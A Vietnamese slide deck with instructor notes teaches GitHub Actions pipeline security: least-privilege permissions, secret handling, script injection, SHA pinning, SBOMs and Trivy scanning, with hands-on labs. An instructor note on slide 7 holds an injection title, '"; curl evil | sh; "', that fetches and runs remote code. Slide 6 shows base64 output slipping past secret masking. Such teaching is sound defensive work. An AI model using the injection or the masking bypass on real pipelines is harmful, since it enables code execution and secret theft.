


# Slide buổi 20 – Pipeline Security

> **Tóm tắt:** Rà soát quyền của GitHub Actions theo least privilege, quản lý secret an toàn, quét image bằng Trivy hoặc Docker Scout, sinh SBOM và pin action theo SHA.

## Slide 1: Mục tiêu buổi học

- Giải thích least privilege và tác động của `permissions:` lên `GITHUB_TOKEN`.
- Rà soát workflow, đưa quyền về mức tối thiểu cho từng job.
- Quét `club-api:1.0.0` bằng Trivy (hoặc Docker Scout), phân loại theo severity.
- Sinh SBOM CycloneDX và giải thích công dụng.
- Pin action theo commit SHA; chẩn đoán pipeline bị security gate chặn.

::: details Ghi chú giảng viên
2 phút. Câu mở đầu: pipeline là nơi có quyền cao nhất trong dự án, vì sao?
:::

---

## Slide 2: Vấn đề - action lạ và write-all

- Thành viên mới copy một action từ blog, đặt `permissions: write-all` cho nhanh.
- Tác giả mất tài khoản, tag `v1` bị trỏ sang mã độc.
- Lần chạy kế tiếp, mã đó đọc được `GITHUB_TOKEN` có quyền ghi vào repo và package.
- Pipeline đọc source, giữ secret, ghi registry, triển khai: mỗi dòng quyền và mỗi dependency mở rộng bề mặt tấn công.

::: details Ghi chú giảng viên
Kể câu chuyện 3 phút, không nêu tên sự cố cụ thể. Hỏi lớp: bước nào trong kịch bản này có thể chặn được thiệt hại?
:::

---

## Slide 3: Least privilege và permissions

- Mỗi thành phần chỉ có quyền đủ để làm việc, trong thời gian đủ để làm việc.
- Quyền mặc định của token phụ thuộc cài đặt repo; hãy khai báo `permissions:` tường minh.
- Khi khai báo `permissions`, mọi quyền không liệt kê đều là `none`.

| Quyền | Khi nào cần |
| --- | --- |
| `contents: read` | checkout code |
| `packages: write` | đẩy image lên GHCR |
| `security-events: write` | upload SARIF vào tab Security |

::: details Ghi chú giảng viên
Hỏi: nếu chỉ khai báo `contents: read`, quyền `packages` là gì? Đáp án: none. 3 phút.
:::

---

## Slide 4: Quyền theo tầng



- Quyền cấp workflow là mức sàn cho mọi job.
- Job chỉ nâng quyền khi thật sự cần.

::: details Ghi chú giảng viên
Mở `publish.yml` của repo giáo trình, chỉ khai báo ở hai cấp. 2 phút.
:::

---

## Slide 5: Secret - làm và không làm

| Làm | Không làm |
| --- | --- |
| Lưu ở Settings, Secrets and variables, Actions | Ghi secret vào YAML, Dockerfile, `compose.yaml` |
| Truyền qua biến môi trường của đúng bước | Truyền qua tham số dòng lệnh |
| Xoay ngay khi nghi ngờ lộ | Tin rằng "xóa commit là xong" |

- Với repo local: dùng `.env` và để `.env` trong `.gitignore`.
- Không `echo` secret, không in `env`.

::: details Ghi chú giảng viên
Nhấn mạnh lịch sử git vẫn giữ secret đã commit. 3 phút.
:::

---

## Slide 6: Che secret trong log có giới hạn

- GitHub che secret theo kiểu khớp chuỗi.
- Giá trị bị biến đổi (base64, cắt, đảo) sẽ không bị che.
- Che log không thay thế được việc không in secret.

```yaml
- name: Demo masking
  env:
    DEMO_SECRET: ${{ secrets.DEMO_SECRET }}
  run: |
    echo "raw: $DEMO_SECRET"
    echo "base64: $(echo -n "$DEMO_SECRET" | base64)"
```

- Mong đợi: dòng `raw:` hiện `***`, dòng `base64:` hiện chuỗi thật.

::: details Ghi chú giảng viên
Demo trên workflow thử nghiệm với secret giả. Xóa bước demo và xoay secret demo sau buổi. 4 phút.
:::

---

## Slide 7: Script injection

- `${{ ... }}` được thay bằng chuỗi trước khi shell chạy.
- Dữ liệu người dùng kiểm soát (tiêu đề PR, tên nhánh, nội dung issue) nhúng vào `run:` có thể chèn lệnh.
- Cách an toàn: gán vào biến môi trường rồi dùng `"$BIEN"`.

```yaml
# Nguy hiểm
- run: echo "PR title is ${{ github.event.pull_request.title }}"

# An toàn
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR title is $PR_TITLE"
```

::: details Ghi chú giảng viên
Hỏi: tiêu đề PR là `"; curl evil | sh; "` thì chuyện gì xảy ra ở bản nguy hiểm? 3 phút.
:::

---

## Slide 8: Pin action theo SHA

| Cách tham chiếu | Bất biến | Khuyến nghị |
| --- | --- | --- |
| `@main` | Không | Không dùng |
| `@v4` | Không, tag di chuyển được | Chấp nhận với action chính thức của GitHub, Docker |
| `@` kèm SHA 40 ký tự | Có | Dùng cho action bên thứ ba |

- Ghi chú phiên bản trong comment; Dependabot có thể tự cập nhật SHA đã pin.
- Nhược điểm: khó đọc, khó cập nhật thủ công.

::: details Ghi chú giảng viên
Hỏi: vì sao tag có thể bị di chuyển còn SHA thì không? 2 phút.
:::

---

## Slide 9: Dependency review và SBOM

- Dependency review (`actions/dependency-review-action`) so sánh dependency trước và sau PR.
- Repo public bật sẵn; repo private có thể cần bật dependency graph hoặc tính năng trả phí, hãy kiểm tra tài liệu GitHub. Tại local dùng `npm audit`.
- SBOM: danh sách thành phần, phiên bản, nguồn gốc của sản phẩm (CycloneDX hoặc SPDX).
- Khi có CVE mới, SBOM trả lời trong vài phút: có dùng gói đó không, ở image nào.

::: details Ghi chú giảng viên
Câu hỏi: một CVE nghiêm trọng vừa công bố cho thư viện, bạn tìm ra mình có dùng nó bằng cách nào? 3 phút.
:::

---

## Slide 10: Image scanning - Trivy và Docker Scout

| Tiêu chí | Trivy | Docker Scout |
| --- | --- | --- |
| Cài đặt | Chạy bằng container | Có trong Docker Desktop |
| Đăng nhập | Không cần | Cần đăng nhập Docker Hub |
| SBOM | `--format cyclonedx` | `docker scout sbom` |
| CI | Rất phổ biến | Cần cấu hình đăng nhập |

- Severity (LOW đến CRITICAL) chỉ là điểm khởi đầu.
- Mục tiêu không phải "0 lỗ hổng" mà là hiểu, ưu tiên, xử lý có chủ đích.

::: details Ghi chú giảng viên
Khóa học dùng Trivy làm mặc định vì không cần đăng nhập. 2 phút.
:::

---

## Slide 11: Kiến trúc pipeline an toàn



- Image chỉ lên registry khi scan đạt ngưỡng đã thỏa thuận.
- Chỉ job publish có `packages: write`.

::: details Ghi chú giảng viên
Đi theo hai nhánh pass và fail. Nhắc file mẫu `examples/github-actions/security-scan.yml` để đọc sau lab. 3 phút.
:::

---

## Slide 12: Demo - quét image bằng Trivy

Không mount `docker.sock` (cấp quyền điều khiển daemon, tương đương root). Xuất image ra tar rồi quét:

```bash
mkdir -p /tmp/scan
docker save club-api:1.0.0 -o /tmp/scan/club-api.tar
docker run --rm \
  -v trivy-cache:/root/.cache/ \
  -v /tmp/scan:/work:ro \
  aquasec/trivy:0.57.1 image --input /work/club-api.tar --severity HIGH,CRITICAL
```

Kết quả mong đợi khi không có lỗ hổng:

```text
Report Summary

Target                          Type      Vulnerabilities
club-api.tar (alpine 3.xx)      alpine    0
Node.js                         node-pkg  0
```

::: details Ghi chú giảng viên
Lần đầu tải database nên chậm. Hỏi: hôm nay ra 0, ngày mai có thể khác 0 không? Vì sao? 4 phút.
:::

---

## Slide 13: Demo - quét image cũ để so sánh

```bash
docker pull node:18-alpine
docker save node:18-alpine -o /tmp/scan/node18.tar
docker run --rm \
  -v trivy-cache:/root/.cache/ \
  -v /tmp/scan:/work:ro \
  aquasec/trivy:0.57.1 image --input /work/node18.tar --severity HIGH,CRITICAL
```

- Thường có danh sách CVE kèm dòng `Total: N (HIGH: x, CRITICAL: y)`; số lượng phụ thuộc thời điểm.
- Nếu ra 0, bỏ `--severity` để thấy cả mức thấp hơn.
- Hỏi lớp: bỏ qua, nâng base image, hay vá từng gói?

::: details Ghi chú giảng viên
Node 18 đã hết vòng đời hỗ trợ nên là ví dụ tốt về base image cũ. 3 phút.
:::

---

## Slide 14: Lab L1 - chuẩn bị và rà soát permissions

```bash
cd ~/devops-labs
mkdir -p lab-20/source lab-20/evidence lab-20/screenshots
trivy() {
  docker run --rm \
    -v trivy-cache:/root/.cache/ \
    -v "$PWD/lab-20:/work" \
    -v "$PWD/starter-project:/project:ro" \
    aquasec/trivy:0.57.1 "$@"
}
mkdir -p lab-20/scan-tmp
printf 'lab-20/scan-tmp/\n' >> .gitignore
docker save club-api:1.0.0 -o lab-20/scan-tmp/club-api.tar
grep -n -A3 "permissions" .github/workflows/*.yml | tee -a lab-20/evidence/command-output.txt
```

- Mong đợi: `ci.yml` có `contents: read`; `publish.yml` có thêm `packages: write` ở job `publish`.
- Settings, Actions, General, Workflow permissions: chọn quyền chỉ đọc, chụp ảnh.
- Lập bảng rà soát trong `report.md`: quyền hiện có, quyền cần, lý do.

::: details Ghi chú giảng viên
Hàm `trivy` chỉ có hiệu lực trong phiên shell hiện tại. Phần 1 khoảng 15 phút. Thiếu image `club-api:1.0.0` thì build lại từ `starter-project/backend`.
:::

---

## Slide 15: Lab L1 - sửa workflow quyền rộng

```yaml
name: Demo wide permissions
on: workflow_dispatch
permissions: write-all
jobs:
  hello:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: echo "hello"
```

- Tạo `.github/workflows/demo-wide.yml` với nội dung trên.
- Sửa `permissions: write-all` thành `permissions:` kèm `contents: read`.
- Commit hai trạng thái ở hai commit riêng để diff thể hiện thay đổi.

::: details Ghi chú giảng viên
Hỏi: vì sao cần hai commit riêng? Đáp án: diff chứng minh việc thu hẹp quyền. 3 phút.
:::

---

## Slide 16: Lab L1 - quét, SBOM, pin SHA

```bash
trivy image --input /work/scan-tmp/club-api.tar --severity HIGH,CRITICAL | tee -a lab-20/evidence/command-output.txt
trivy image --input /work/scan-tmp/club-api.tar --severity HIGH,CRITICAL --ignore-unfixed
trivy image --input /work/scan-tmp/club-api.tar --format cyclonedx --output /work/evidence/club-api-sbom.cdx.json
grep -c '"type": "library"' lab-20/evidence/club-api-sbom.cdx.json
git ls-remote https://github.com/actions/checkout 'refs/tags/v4.2.2*'
```

- `--ignore-unfixed`: chỉ hiện lỗ hổng đã có bản vá, thứ bạn xử lý được ngay.
- SBOM mong đợi: số thành phần lớn hơn 0, thấy `express` và `pg`.
- `git ls-remote`: SHA 40 ký tự; nếu có dòng kết thúc `^{}` (tag annotated) dùng SHA của dòng đó.
- Pin: `actions/checkout@` kèm SHA đầy đủ và comment `# v4.2.2`; kiểm tra lại SHA trên trang Releases.

::: details Ghi chú giảng viên
Phần 2-4 khoảng 35 phút. SHA placeholder không chạy được nếu để nguyên, học viên phải tra giá trị thật. Có thể thêm `trivy config /project/k8s` để thấy cảnh báo cấu hình.
:::

---

## Slide 17: Lab L1 - tìm secret lỡ commit

```bash
git grep -n -i -E "password|secret|token|api[_-]?key" -- . ':!*.md' ':!package-lock.json' \
  | tee -a lab-20/evidence/command-output.txt
```

- Mong đợi: chỉ thấy tên biến (`DB_PASSWORD`, `secrets.GITHUB_TOKEN`), không có giá trị thật.
- Thấy giá trị thật: coi như đã lộ, xoay ngay và xóa khỏi code.
- Checklist L1: bảng permissions, `demo-wide.yml` đã sửa, ảnh cài đặt, log quét, SBOM có `express`, một action pin SHA.

::: details Ghi chú giảng viên
Nhắc: xóa commit không xóa lịch sử. 3 phút.
:::

---

## Slide 18: Lab L2 - workflow security.yml

- Tạo `.github/workflows/security.yml` chạy trên PR và push nhánh chính.
- Quyền cấp workflow: `contents: read`; không job nào có quyền ghi thừa.
- Job dependency review: chỉ chạy với `pull_request`, thất bại khi có dependency mới mức HIGH trở lên.
- Job build `club-api` rồi quét: thất bại khi có CRITICAL đã có bản vá (`--ignore-unfixed`, `--exit-code 1`).
- Job sinh SBOM và upload artifact giữ 30 ngày.

<details><summary>Gợi ý</summary>

- `actions/dependency-review-action@v4` có đầu vào `fail-on-severity: high`.
- Build vào daemon của runner: `docker build -t club-api:ci starter-project/backend`.
- Chạy container `aquasec/trivy` với `--input` (không mount `docker.sock`).
- Upload bằng `actions/upload-artifact@v4` với `retention-days: 30`.

</details>

::: details Ghi chú giảng viên
Học viên tự viết, không chiếu lời giải. Repo private chưa bật dependency graph thì job dependency review sẽ lỗi: thay bằng `npm audit --omit=dev` và ghi nhận trong report. Action bên thứ ba thêm vào phải pin SHA. Giải thích ngưỡng đã chọn trong `report.md`.
:::

---

## Slide 19: Lỗi - security gate chặn pipeline

- Cách phá: đổi dòng `FROM` của `starter-project/backend/Dockerfile` (cả hai stage) thành `node:18-alpine`, push và mở PR.
- Triệu chứng: job `image-scan` đỏ, log kết thúc bằng bảng CVE và exit code 1; test vẫn xanh.
- Điều tra: đọc dòng `Total:`; xác định gói hệ điều hành hay `node-pkg`; xem cột Fixed Version; chạy lại cục bộ với `--ignore-unfixed`; thử `node:22-alpine`.
- Nếu job vẫn xanh: hạ ngưỡng tạm xuống `--severity HIGH,CRITICAL` hoặc bỏ `--ignore-unfixed` để quan sát cơ chế; kết quả phụ thuộc thời điểm quét.
- Gốc: base image cũ, hết hỗ trợ. Pipeline đã làm đúng việc của nó.
- Xử lý có kiểm soát: `.trivyignore` kèm lý do và ngày xem xét lại, không tắt gate.

::: details Ghi chú giảng viên
Liên hệ scenario-05 (image build thất bại) về cách điều tra từng bước. Đây là lỗi mà học viên chỉ nhận triệu chứng trước. 5 phút.
:::

---

## Slide 20: Lỗi thường gặp

| Triệu chứng | Cách xử lý |
| --- | --- |
| `denied: permission_denied` khi push | Thêm `packages: write` vào đúng job publish |
| `Resource not accessible by integration` | Thêm đúng một quyền thiếu ở cấp job |
| Trivy lỗi tải DB hoặc timeout | Chạy lại, giữ volume `trivy-cache` |
| Trivy không mở được file `--input` | Chạy lại `docker save`, kiểm tra mount `-v` |
| `Unable to resolve action` sau khi pin | SHA sai hoặc thiếu; tra lại bằng `git ls-remote` |
| Scan luôn đỏ dù đã nâng base image | CVE chưa vá bị tính; thêm `--ignore-unfixed` |

::: details Ghi chú giảng viên
Dùng làm bảng tra khi đi quanh lớp. Tình huống phụ tùy chọn: nhúng `github.head_ref` vào `run:` với tên nhánh chứa dấu nháy để thấy lệnh bị phá. 2 phút.
:::

---

## Slide 21: Thử thách và bài nộp

- Thử thách: image build hôm qua quét sạch, hôm nay có HIGH, không ai đổi code. Giải thích và đề xuất cách phòng.
- Gợi ý ý chính: database CVE cập nhật liên tục, cần quét định kỳ và cập nhật base image.
- Nộp vào `lab-20/` theo `templates/lab-template.md`: `README.md`, `evidence/`, `report.md`, `source/`, `screenshots/`.
- Không commit secret, token, `.env`; chạy lại `git grep` trước khi nộp.

::: details Ghi chú giảng viên
Cho lớp thảo luận 3 phút trước khi nêu đáp án. Dòng cuối README học viên ghi level đã làm (L1 hoặc L2).
:::

---

## Slide 22: Recap

- Khai báo `permissions` tường minh, sàn là `contents: read`, nâng quyền ở cấp job khi cần.
- Không in secret; che log chỉ là lớp bảo vệ phụ.
- Dữ liệu người dùng đi qua biến môi trường, không nhúng vào `run:`.
- Pin action bên thứ ba theo SHA, comment phiên bản.
- Quét image và dependency mỗi lần build và định kỳ; SBOM giúp tra cứu nhanh.
- Security gate chặn pipeline là tính năng; xử lý nguyên nhân, đừng tắt gate.

::: details Ghi chú giảng viên
Exit ticket: mỗi bạn nêu một thay đổi sẽ áp dụng ngay vào workflow của mình. 15 phút review cuối buổi xem evidence.
:::
